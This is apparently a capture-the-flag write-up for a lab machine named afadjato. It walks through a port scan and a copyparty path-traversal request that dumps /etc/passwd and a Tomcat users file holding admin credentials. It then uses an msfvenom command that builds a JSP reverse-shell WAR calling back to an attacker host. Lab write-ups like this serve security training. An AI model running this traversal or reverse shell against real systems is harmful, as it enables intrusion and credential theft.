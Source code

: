 # afadjato 
upon scanning afadjato, we find two ports open
``` rustscan -a 10.0.13.1 -r1-65535 --ulimit 5000 
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.13.1:9709
open 10.0.13.1:8080 

```

port 8080 and port 9709

visiting port 8080 we get a tomcat hompage 

![](./images/tomcat.png)

and visiting port 9709 we get a different application, which looks like a media player

![](./images/copyparty.png)

mapping the application we found out it was called copyparty, so we searched public exploit and we did got one

> curl -i -s -k -X  GET 'http://10.0.10.1:9709/.cpr/%2Fetc%2Fpasswd'
```
curl -i -s -k -X  GET 'http://10.0.13.1:9709/.cpr/%2Fetc%2Fpasswd'
HTTP/1.1 200 OK
Content-Length: 973
Connection: Keep-Alive
Date: Sun, 06 Oct 2024 14:39:56 GMT
Vary: Origin, PW, Cookie
Cache-Control: no-cache
Last-Modified: Sun, 22 Sep 2024 19:34:47 GMT
Accept-Ranges: bytes
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
BRCTF:x:1000:1000:BRCTF User:/home/BRCTF:/bin/bash

```

this payload will the /etc/passwd file from the target machine
it doesnt really do much since we want to get a shell on the machine
but remember there was another service (tomcat)

if we are able to login to tomcat we might be able to do something, so what we did was to use the exploit and change the path to refrence the config of tomcat 

> .cpr/%2Fopt%2Fapache-tomcat-10.1.29%2Fconf%2Ftomcat-users.xml

```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
	<role rolename="manager-gui"/>
	<user username="admin" password="hellyPass4Admin" roles="manager-gui"/>

</tomcat-users>

```

and we get the config file for tomcat, with some credentials at the end of the script

we use the credentials to login into tomcat,

![](./images/tomcat2.png)
 now its time to get a shell

we generated a vulnerable war file using msfvenom 

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.66 LPORT=443 -f war -o ghostshell.war

and set our listener on our attacker machine, then uploaded the war file and vistied the url, and we had a shell

![](./images/shell.png)

### That is it for Afadjato


